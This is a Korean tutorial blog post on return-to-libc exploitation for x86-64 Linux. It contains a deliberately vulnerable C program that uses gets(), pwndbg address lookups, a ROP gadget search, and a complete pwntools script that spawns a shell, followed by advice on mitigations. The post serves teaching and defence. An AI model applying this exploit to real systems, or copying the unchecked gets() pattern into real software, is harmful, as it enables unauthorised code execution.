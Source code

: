 ```yaml
---
title: "Return to Libc"
date: "2025-02-09"
author: "Beomsu Lee"
tags: ["system hacking", "stack"]
---
```


버퍼 오버플로우 취약점을 이용한 공격 기법 중 하나이다. DEP(Data Execution Prevention)를 우회하는 방법으로, 스택이 아닌 libc 라이브러리 함수들을 호출하여 코드 실행을 조작하는 기법이다.

> DEP는 스택에 있는 쉘코드가 실행되지 않도록 보호하는 기법이다.

## Exploit Plan

1. 취약한 프로그램에서 버퍼 오버플로우 발생 가능성 분석
2. 프로그램이 사용하는 libc 라이브러리 내 `system()` 함수 주소 확보
3. `/bin/sh` 문자열이 메모리에 있는지 확인 (또는 주입)
4. 스택을 조작해 리턴 주소를 `system()` 함수 주소로 설정
5. `system("/bin/sh")` 실행하여 쉘 확보

## Proof of Concept

```cpp
#include <stdio.h>
#include <string.h>

void vuln() {
    char buffer[64];
    gets(buffer);  
    printf("%s", buffer);
}

int main() {
    vuln();  
    return 0;
}
```

### Vulnerability Analysis

`gets()`를 사용해 길이 검증 없이 입력을 복사하기 때문에 버퍼 오버플로우 취약점이 존재한다.

스택 메모리 구조는 다음과 같다.

buffer(64 byte) + RBP(8 byte) + Return Address(8 byte)

따라서 다음과 같은 페이로드를 작성하고 리턴 주소까지 덮이는지 확인해보자.

```shell
payload = b'A'*64 + b'B'*8 + b'C'*8
```

`vuln()`의 `leave`를 수행하기 전 RBP를 확인해보면 0x4242424242424242으로 덮어씌워져 있고, 리턴 주소 또한 0x4343434343434343로 덮어씌워져 있다.

```
pwndbg> x/24gx $rbp
0x7ffe0c9662c0: 0x4242424242424242      0x4343434343434343
```

즉, 리턴 주소 변조를 통해 RIP를 변조할 수 있으므로, 결국 실행흐름까지 변조할 수 있게 된다.

### Exploit

`system("/bin/sh")`를 실행하기 위해 메모리 내 존재하는 "/bin/sh" 위치를 알아내야 한다. pwndbg에서는 `search`라는 명령어를 통해 "/bin/sh"의 위치를 쉽게 알아낼 수 있다.

```
pwndbg> search /bin/sh
Searching for byte: b'/bin/sh'
libc.so.6       0x7ffff7dcb42f 0x68732f6e69622f /* '/bin/sh' */
```

라이브러리의 `system()` 주소도 `p` 명령을 통해 알아낸다.

```cpp
pwndbg> p system
$3 = {int (const char *)} 0x7ffff7c58750 <__libc_system>

```

ASLR이 해제되어 있어 확보한 주소들은 변하지 않는다. 

이제 쉘을 실행하기 위한 정보는 다 얻었으니, 리턴 주소를 변조해보자.

64bit는 함수 호출 시 레지스터를 이용해 인자를 전달한다. 

> 32bit는 스택을 이용했다.

|인자 순서 | 	레지스터|	역할|
|:-:|:-:|:-:|
|1번째	|RDI	|첫 번째 인자|
|2번째	|RSI	|두 번째 인자|
|3번째	|RDX	|세 번째 인자|
|4번째	|RCX	|네 번째 인자|
|5번째	|R8	|다섯 번째 인자|
|6번째	|R9|	여섯 번째 인자|
|7번째 이후|	스택(RSP)|	추가적인 인자|

64bit 함수 호출 시 첫 번째 인자는 RDI로 전달한다. 따라서 "/bin/sh"의 주소를 RDI에 저장한 다음 `system()`을 호출시키면 된다. 

RDI에 "/bin/sh"의 주소를 저장시키기 위해선 `pop rdi` 가젯이 필요하다. `ROPGadget` 명령어를 통해 해당 가젯을 찾을 수 있다.

```shell
$ ROPgadget --binary /usr/lib/x86_64-linux-gnu/libc.so.6  | grep 'pop rdi ; ret'
0x000000000010f75b : pop rdi ; ret
```

프로그램 실행 시 "libc.so의 base 주소" + "가젯 주소"를 하면 프로그램이 실행될 때의 해당 가젯 주소를 얻을 수 있다.

```
pwndbg> x/2i 0x7ffff7d0f75b
   0x7ffff7d0f75b <__spawnix+875>:	pop    rdi
   0x7ffff7d0f75c <__spawnix+876>:	ret
```

다음과 같이 페이로드를 작성한 뒤 실행시키면 쉘을 얻을 수 있다. 중간에 추가한 `ret` 가젯의 경우 16 byte 정렬을 맞춰주기 위함이다. 맞춰주지 않으면 쉘을 확보하기 전 에러가 발생하게 된다.

```py
from pwn import *

p = process('./vuln')

poprdi = p64(0x7ffff7d0f75b)
binsh = p64(0x7ffff7dcb42f)
system = p64(0x7ffff7c58750)
ret = p64(0x0000000000401190)

payload = b'A'*64 + b'B'*8 + ret +  poprdi + binsh + system
p.sendline(payload)

p.interactive()
```

```shell
$ ../python exploit.py
[+] Starting local process './vuln': pid 259989
[*] Switching to interactive mode
$ id
uid=1000(..) gid=1000(..) groups=1000(..),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
```

## Protection

### Stack Protection

- Stack Canaries: 카나리를 통해 스택 버퍼 오버플로우를 감지
- ASLR(Address Space Layout Randomization): 라이브러리 주소를 무작위화하여 공격을 방지

### Using Safe Functions

- `gets()` 대신 `fgets()`, `strcpy()` 대신 `strncpy()` 사용
- 입력 검증 및 길이 제한

## References

- [01.RTL(Return to Libc) - x86](https://www.lazenca.net/display/TEC/01.RTL%28Return+to+Libc%29+-+x86)
